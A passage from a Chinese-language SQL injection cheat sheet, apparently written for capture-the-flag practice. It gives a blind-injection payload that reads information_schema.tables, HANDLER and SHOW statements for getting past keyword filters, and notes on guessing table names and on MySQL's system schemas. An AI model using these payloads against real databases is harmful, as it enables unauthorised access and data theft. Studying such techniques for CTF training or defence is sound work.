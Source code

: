 ```python
"admin' or ("def","{0}",1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1)=(table information_schema.tables order by CREATE_TIME desc limit 1,1)".format({i})
```

该表查阅官方文档有21列，1表示占位（回显True）,此盲注可以把数据库名(table_schema)表名（table_name)一并注入出。

注意区分大小写，如使用hex,binary等（参考字符串大小写）

##### handler + show

如果想看表的内容，可以用handler的方式绕过，[参考]([(9条消息) [GYCTF2020\]Blacklist 1_无独有偶o的博客-CSDN博客](https://blog.csdn.net/weixin_44477223/article/details/115285538)).payload如下

```sql
handler table_name open
handler table_name read first;
handler table_name read last;
handler table_name close;
```

如果想看数据库、表、字段，如下payload:

```mysql
show database();
show databases;
show tables in database_name;
show columns from table_name;
//有时候要use才能用
use database_name;
```

# 21猜测表

可以用exists函数

select flag from flag

select username,password from users

# 22特殊库

### 22.1 information_schema库

| 表                          | 字段                                  | 说明               |
| --------------------------- | ------------------------------------- | ------------------ |
| information_schema.schemata | schema_name                           | 库名               |
| information_schema.tables   | table_schema、table_name              | 库名、表名         |
| information_schema.columns  | table_schema、table_name、column_name | 库名、表名、字段名 |

### 22.2 sys库

mysql5.7增加sys系统数据库，这个库是通过视图的形式把information_schema和performance_schema结合起来
